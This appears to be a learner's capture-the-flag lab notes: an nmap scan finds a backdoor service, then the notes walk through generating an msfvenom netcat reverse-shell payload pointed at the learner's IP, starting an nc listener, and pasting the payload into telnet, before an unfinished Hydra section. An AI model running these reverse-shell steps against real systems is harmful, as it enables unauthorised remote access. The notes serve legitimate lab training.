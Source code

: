 **import**
	PORT     STATE SERVICE REASON  VERSION
	8012/tcp open  unknown syn-ack
	| fingerprint-strings: 
	|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
	|_    SKIDY'S BACKDOOR. Type .HELP to view commands


that scan says that this can be used ass a backdoor .   SKIDY'S BACKDOO.



## using msfvenom

We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:  

**"msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R"**

-p = payload

lhost = our local host IP address (this is **your** machine's IP address)

lport = the port to listen on (this is the port on **your** machine)

R = export the payload in raw format


this did not work , how i fixed it :

ip a 

gets the ip the put it directly in lhost

└─$ msfvenom -p cmd/unix/reverse_netcat LHOST=10.21.117.138 lport=4444 R

Perfect. We're nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using:

**"nc -lvnp [listening port]"**


Great! Now that's running, we need to copy and paste our msfvenom payload into the telnet session and run it as a command. Hopefully- this will give us a shell on the target machine!

![[Pasted image 20250107223617.png]]


![[Pasted image 20250107223636.png]]


## Hydra


**Hydra** is a powerful password-cracking tool that supports **over 50 protocols**, including FTP. It can perform rapid **dictionary attacks** on various services.

**Command Syntax for Hydra:**
